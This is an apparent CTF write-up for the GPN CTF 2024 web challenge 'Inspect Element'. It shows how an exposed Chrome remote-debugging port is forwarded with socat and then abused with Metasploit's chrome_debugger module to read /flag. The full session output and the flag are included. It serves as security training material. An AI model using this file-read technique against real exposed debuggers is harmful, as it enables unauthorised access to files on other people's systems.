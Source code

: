 ```yaml
---
ctf-event: GPN CTF 2024
date: 2024-06-01
ctf-team: luxeria
ctf-task: Inspect Element
ctf-category: web
ctf-difficulty: 
---
```

# Inspect Element

## Description

> Maybe using Inspect Element will help you!

>Small hint: If you're struggling with reproducing it on remote, you can use `socat` to proxy the remote instance to `localhost:1337` like this: `socat TCP-LISTEN:1337,fork OPENSSL:xxx--xxx-1234.ctf.kitctf.de:443`
  and it should behave exactly like a locally running docker container.

## Analysis

The server starts a Chrome process with the remote debugging  port exposed:
```bash
socat tcp-listen:1337,fork tcp:localhost:13370 & \
  google-chrome --remote-debugging-port=13370 --disable-gpu --headless=new --no-sandbox google.com
```

## Solution

Forward a local port to the exposed debugging port (to have the port available via TCP and not only TLS):
```bash
socat TCP-LISTEN:1337,fork OPENSSL:how-deep-is-your-love--disciples-2841.ctf.kitctf.de:443
```

Use metasploit to read files via the exposed debugging port and get the flag:
```text
msf6 > use auxiliary/gather/chrome_debugger
msf6 auxiliary(gather/chrome_debugger) > set FILEPATH /flag
msf6 auxiliary(gather/chrome_debugger) > set RHOSTS 127.0.0.1
msf6 auxiliary(gather/chrome_debugger) > set RPORT 1337
msf6 auxiliary(gather/chrome_debugger) > run
[*] Running module against 127.0.0.1

[*] Attempting Connection to ws://127.0.0.1:1337/devtools/page/67C7888B105174679C2317632CA196A6
[*] Opened connection
[*] Attempting to load url file:///flag
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Stored file:///flag at /home/emanuel/.msf4/loot/20240601211048_default_127.0.0.1_chrome.debugger._933372.txt

[*] Auxiliary module execution completed

msf6 auxiliary(gather/chrome_debugger) > exit

$ cat /home/emanuel/.msf4/loot/20240601211341_default_127.0.0.1_chrome.debugger._870365.txt
<html><head><meta name="color-scheme" content="light dark"></head><body><pre style="word-wrap: break-word; white-space: pre-wrap;">GPNCTF{D4NG3R0U5_D3BUGG3R}
</pre></body></html>
```

## Resources

- https://blog.pentesteracademy.com/chrome-debugger-arbitrary-file-read-1ff2c41320d1